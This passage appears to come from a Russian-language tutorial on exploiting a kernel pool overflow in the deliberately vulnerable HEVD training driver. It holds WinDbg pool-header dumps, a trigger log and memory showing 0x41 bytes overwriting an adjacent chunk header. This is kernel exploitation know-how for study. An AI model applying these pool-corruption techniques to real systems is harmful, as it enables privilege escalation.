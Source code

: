 ```js
 850b4c00 size:   40 previous size:  388  (Allocated)  Even (Protected)
 850b4c40 size:   40 previous size:   40  (Allocated)  Even (Protected)


kd> dt _POOL_HEADER 850b4618
nt!_POOL_HEADER
   +0x000 PreviousSize     : 0y000010101 (0x15)
   +0x000 PoolIndex        : 0y0000000 (0)
   +0x002 BlockSize        : 0y001000000 (0x40)
   +0x002 PoolType         : 0y0000010 (0x2)
   +0x000 Ulong1           : 0x4400015
   +0x004 PoolTag          : 0x6b636148
   +0x004 AllocatorBackTraceIndex : 0x6148
   +0x006 PoolTagHash      : 0x6b63

```

Разберём хедеры:
```
kd> g
[+] Allocating Pool chunk
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x1F8
[+] Pool Chunk: 0x8524D4C8
[+] UserBuffer: 0x00098908
[+] UserBuffer Size: 0x1F8
[+] KernelBuffer: 0x8524D4C8
[+] KernelBuffer Size: 0x1F8
[+] Triggering Pool Overflow
Break instruction exception - code 80000003 (first chance)
HEVD!TriggerPoolOverflow+0xd8:
a855a202 ff750c          push    dword ptr [ebp+0Ch]

kd> !pool 0x8524D4C8
Pool page 8524d4c8 region is Unknown
 8524d000 size:   40 previous size:    0  (Allocated)  Even (Protected)
 8524d040 size:   f8 previous size:   40  (Free)       r...
 8524d138 size:  388 previous size:   f8  (Free )  XSav
*8524d4c0 size:  200 previous size:  388  (Allocated) *Hack
        Owning component : Unknown (update pooltag.txt)
ReadVirtual: 8524d7fc not properly sign extended
 8524d6c0 size:  140 previous size:  200  (Allocated)  Io   Process: 86d7e228
 8524d800 size:   40 previous size:  140  (Allocated)  Even (Protected)
 8524d840 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8524d880 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8524d8c0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8524d900 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8524d940 size:   40 previous size:   40  (Allocated)  Even (Protected)
 8524d980 size:   40 previous size:   40  (Allocated)  Even (Protected)

kd> dd 8524d6c0-8
ReadVirtual: 8524d6b8 not properly sign extended
8524d6b8  41414141 41414141 14280040 20206f49
8524d6c8  00320033 0063005c 00720065 00700074
8524d6d8  006f0072 002e0070 006c0064 0000006c
8524d6e8  c0100002 0424007e 95d23b8f 00000000
8524d6f8  1c210007 20206f49 00000000 00630069
8524d708  005c0065 00610048 00640072 00690064
8524d718  006b0073 006f0056 0075006c 0065006d
8524d728  005c0031 00690057 0064006e 0077006f
```
